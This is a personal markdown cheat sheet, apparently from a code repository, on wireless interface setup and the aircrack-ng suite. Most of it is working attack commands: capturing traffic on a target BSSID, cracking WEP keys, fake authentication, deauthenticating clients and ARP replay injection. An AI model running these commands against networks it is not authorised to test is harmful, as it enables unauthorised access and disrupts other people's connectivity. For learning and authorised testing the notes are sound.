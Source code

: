 # Notes on wifi configs and setup

## Keeping interface names
I was having issues with the external card until adjusting the below.
```bash
$ vim /etc/default/grub
GRUB_CMDLINE_LINUX="net.ifnames=0 biosdevname=0"
```

## airmon-ng
Checking and kill networking services.
```
$ airmon-ng check kill
```

Set interface to monitor mode.
```bash
$ airmon-ng start wlan1
```
Stop monitor mode and start networking.
```
$ airmon-ng stop wlan1
$ systemctl restart network-manager.service
```

## Renaming interface (temporary)
Rename target interface to `wlan1` instead of systemd generated name.
```bash
$ iwconfig | grep wlx
wlx9cefd5fd1181  IEEE 802.11  ESSID:off/any 
$ ip link set wlx9cefd5fd1181 down
$ ip link set wlx9cefd5fd1181 name wlan1
$ ip link set wlan1 up
$ systemctl restart network-manager.service
```
[Understanding systemd’s predictable network device names](https://major.io/2015/08/21/understanding-systemds-predictable-network-device-names/)

## airodump-ng
Find surrounding networks, access points and clients
```bash
$ airodump-ng wlan1
```

Begin collection on target channel, BSSID and recording to file.
  - `-c` Select channel number
  - `-w` Write to file
  - `--bssid` MAC address of access point
  - `--ivs` Save only captured IVs
```bash
$ airodump-ng -c 6 --bssid E0:05:C5:60:2E:65 --ivs -w capture  wlan1
```

## aircrack-ng
Begin cracking IVS file on target BSSID (can perform while airodump-ng is writing).
```bash
$ aircrack-ng capture-01.ivs --bssid E0:05:C5:60:2E:65
```

Invoke PTW WEP cracking method method on an arp replay.
```bash
$ aircrack-ng -z replay_arp-0309-015802.cap
```

## aireplay-ng
Set attack mode [Fake authentication](https://www.aircrack-ng.org/doku.php?id=fake_authentication).
  - `-1` Set `-1` count
  - `-o` Number of packets to send at a time
  - `-q` Number of seconds to send keep-alive packets
  - `-e` Filename to write
  - `-a` Target access point MAC address
```bash
$ aireplay-ng -1 180 -o 1 -q 10 -e capture -a A0:21:B7:60:2E:65 wlan1
```

Set attack mode [deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication).
  - `--deauth` Set `deauth` count
  - `-e` Target access point ESSID
  - `-a` Target access point MAC address
  - `-c` Set destination MAC address
```bash
$ aireplay-ng --deauth 5 -e access_point -a A0:21:B7:60:2E:65 -c AC:65:21:B7:2E:60 wlan1
```

Set attack mode [ARP request replay attack](https://www.aircrack-ng.org/doku.php?id=arp-request_reinjection).
  - `--arpreplay` attack mode
  - `-b` Target access point BSSID
  - `-h` Set source MAC address
  - `-r` Extract packets from target pcap file
  - `-x` Number of packets-per-second
```bash
$ aireplay-ng --arpreplay -b A0:21:B7:60:2E:65 -h AC:65:21:B7:2E:60 wlan1 -r replay_arp-0309-015533.cap -x 100
```

## Sources
[Aircrack-ng Newbie Guide for Linux](https://www.aircrack-ng.org/doku.php?id=newbie_guide)
